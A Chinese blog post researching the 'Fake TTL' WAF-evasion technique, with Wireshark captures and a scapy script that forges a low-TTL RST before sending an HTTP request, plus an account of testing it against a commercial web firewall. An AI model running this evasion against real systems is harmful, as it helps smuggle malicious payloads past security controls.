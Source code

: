 
# Fake TTL攻击

## 从工具出发

工具：https://github.com/TomAPU/ev

挺老的技术了，但是看大佬又提起了就来研究看看。下载工具并勾选小于10的ttl发包后，跟踪tcp stream

[![XPI3fs.jpg](https://s1.ax1x.com/2022/05/24/XPI3fs.jpg)](https://imgtu.com/i/XPI3fs)

三次握手后（SYN、SYN,ACK、ACK），和没有fake ttl时不同，http没有直接请求路径，而是Continuation or non-HTTP traffic作为分片（包）进行传输，再在下一个包中请求路径

[![XPIGpn.jpg](https://s1.ax1x.com/2022/05/24/XPIGpn.jpg)](https://imgtu.com/i/XPIGpn)

而最后是跟着一个TCP片段传输重传包

但是在两次握手后本地向服务器发送了rst断开了连接，之后请求也依次断开

我想原作者应该是想在建立TCP连接后，发送一个定制TTL值的rst包，但是不知为何实现有问题

[![XPImOf.png](https://s1.ax1x.com/2022/05/24/XPImOf.png)](https://imgtu.com/i/XPImOf)

[![XPIK0S.png](https://s1.ax1x.com/2022/05/24/XPIK0S.png)](https://imgtu.com/i/XPIK0S)

## 纠错与研究

于是参考腾讯安全的文章重写下了简单实现代码

 - [ ] 代码
       
       import time
       
       from scapy.all import *
       
       import sys
       
       r_ip = "121.4.255.248"
       
       r_port = 8080
       
       s_port = RandNum(1025,65535)
       
       http_str = 'GET / HTTP/1.1\r\n'
       
       http_str2 = 'xhacker: hi' + 'a' * 100 + "\r\n"
       
       http_str3 = 'indeed: b' + 'b' * 100 + "\r\n"
       
       http_str4 = 'fuck: ' + 'fuck_fuck_fuck' * 100 + "\r\n"
       
       http_str100 = 'Host: 121.4.255.248:8080' + "\r\n"
       
       http_strend = "\r\n"
       
       http_ALL = http_str + http_str100 + http_str2 + http_str3 +
       http_str4 +http_strend
       
       print(len(http_ALL))
       
       print("[+] send syn \n")
       
       syn_ = IP(dst=r_ip) /
       TCP(dport=r_port,sport=s_port,options=[('MSS',1460)])
       
       rsp1 = sr1(syn_)
       
       print("[+] send ack \n")
       
       ack_ = IP(dst=r_ip) /
       TCP(dport=r_port,sport=rsp1.dport,flags='A',seq=rsp1.ack,ack=rsp1.seq
       + 1)
       
       send(ack_)
       
       print("[+] send fake ttl")
       
       fakerst_ = IP(dst=r_ip,ttl=12) /
       TCP(dport=r_port,sport=rsp1.dport,flags='R',seq=rsp1.ack,ack=rsp1.seq
       + 1)
       
       send(fakerst_)
       
       print("[+] send HTTP \n")
       
       http_ = sr1(IP(dst=r_ip) /
       TCP(dport=r_port,sport=rsp1.dport,flags='PA',seq=rsp1.ack,ack=rsp1.seq
       + 1)/http_ALL)

[![XPIum8.png](https://s1.ax1x.com/2022/05/24/XPIum8.png)](https://imgtu.com/i/XPIum8)

flag="R"表示RST，复位或中断一个连接

典型的问题是握手两次就断开了，导致后续访问不了

[![XPIMTg.png](https://s1.ax1x.com/2022/05/24/XPIMTg.png)](https://imgtu.com/i/XPIMTg)

对比网页正常访问和python发包

[![XPIY60.jpg](https://s1.ax1x.com/2022/05/24/XPIY60.jpg)](https://imgtu.com/i/XPIY60)

在尝试和google了半天的解决方法是：[转-使用Python scapy构造tcp三次握手，遭遇系统发送rst包解决方法_xian_wwq的博客-CSDN博客_scapy模拟tcp三次握手](https://blog.csdn.net/tpriwwq/article/details/119736821)

开启windows defender后发包也正常了

[![XPIlkQ.png](https://s1.ax1x.com/2022/05/24/XPIlkQ.png)](https://imgtu.com/i/XPIlkQ)

[![XPI1Yj.png](https://s1.ax1x.com/2022/05/24/XPI1Yj.png)](https://imgtu.com/i/XPI1Yj)

[![XPIUmT.jpg](https://s1.ax1x.com/2022/05/24/XPIUmT.jpg)](https://imgtu.com/i/XPIUmT)

勾选发送fake ttl数据后，本地发送了一个ttl为10，无法转到服务器端的假数据

[![XPIa0U.jpg](https://s1.ax1x.com/2022/05/24/XPIa0U.jpg)](https://imgtu.com/i/XPIa0U)

尝试对某狗测试，虽然只是Web waf，实际情况经过waf时会对IP数据包分片重组，重组数据中包含fake rst（fake ttl）导致重组的数据包是正常的可以绕过检测，而实际ttl值过小只能转10跳的路由节点，最后不满足到达后端的条件，实际后端接收到的还是恶意payload数据导致绕过

[![XPIJlq.png](https://s1.ax1x.com/2022/05/24/XPIJlq.png)](https://imgtu.com/i/XPIJlq)

[![XPItXV.png](https://s1.ax1x.com/2022/05/24/XPItXV.png)](https://imgtu.com/i/XPItXV)

附录-参考文章

[TCP Retransmission 连接超时](https://www.jianshu.com/p/f6db396d01c7?from=singlemessage)

[Wireshark抓包:详解TCP三次握手报文内容_清菡软件测试的博客-CSDN博客](https://blog.csdn.net/weixin_41033105/article/details/123814780)

[Continuation or non-HTTP traffic 说明_shuilovejie的博客-CSDN博客](https://blog.csdn.net/shuilovejie/article/details/83694768)

[wireshark抓包结果很多[TCP Retransmission]怎么办?_weixin_30449453的博客-CSDN博客](https://blog.csdn.net/weixin_30449453/article/details/95259919?spm=1001.2101.3001.6661.1&utm_medium=distribute.pc_relevant_t0.none-task-blog-2%7Edefault%7ECTRLIST%7ERate-1-95259919-blog-88581516.pc_relevant_paycolumn_v3&depth_1-utm_source=distribute.pc_relevant_t0.none-task-blog-2%7Edefault%7ECTRLIST%7ERate-1-95259919-blog-88581516.pc_relevant_paycolumn_v3&utm_relevant_index=1)

[tcp retransmission原因_lemontree1945的博客-CSDN博客_retransmission](https://blog.csdn.net/lemontree1945/article/details/88581516)

[几种TCP连接中出现RST的场景分析_dvlinker的博客-CSDN博客](https://blog.csdn.net/chenlycly/article/details/76383198?utm_medium=distribute.pc_relevant.none-task-blog-2~default~baidujs_title~default-0-76383198-blog-62436600.pc_relevant_paycolumn_v3&spm=1001.2101.3001.4242.1&utm_relevant_index=3)

https://security.tencent.com/index.php/blog/msg/147

[TCP FLAG 标记 -xing_jia-ChinaUnix博客](http://blog.chinaunix.net/uid-20794164-id-4068941.html)

[转-使用Python scapy构造tcp三次握手，遭遇系统发送rst包解决方法_xian_wwq的博客-CSDN博客_scapy模拟tcp三次握手](https://blog.csdn.net/tpriwwq/article/details/119736821)